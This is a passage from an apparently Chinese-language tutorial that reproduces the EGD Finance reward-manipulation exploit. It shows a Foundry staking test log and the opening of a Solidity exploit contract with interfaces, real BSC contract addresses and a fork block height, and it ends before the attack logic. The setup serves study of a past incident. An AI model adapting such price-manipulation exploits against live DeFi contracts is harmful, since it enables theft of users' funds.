 

输出

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract StakeTest  -vv
[⠑] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 2.41s
Compiler run successful

Running 1 test for test/Stake.t.sol:StakeTest
[PASS] testStake() (gas: 868614)
Logs:
  usdt i staked: 100000000000000000000
  edg i have: 0
  edg i get from the stake reward (2 days later): 135123268981974350000
```

可以看到, 在正常情况下 质押 100个USDT, 2天后大约能获取135个EDG



### 在操纵价格后获取EGD奖励

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

import "forge-std/test.sol";

interface IPancakePair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IEGD_Finance {
    function getEGDPrice() external view returns (uint256);

    function calculateAll(address addr) external view returns (uint256);

    function bond(address invitor) external;

    function stake(uint256 amount) external;

    function claimAllReward() external;
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);

    function approve(address spender, uint256 value) external returns (bool);
}

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;
uint256 constant blockheight = 20245522;
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
```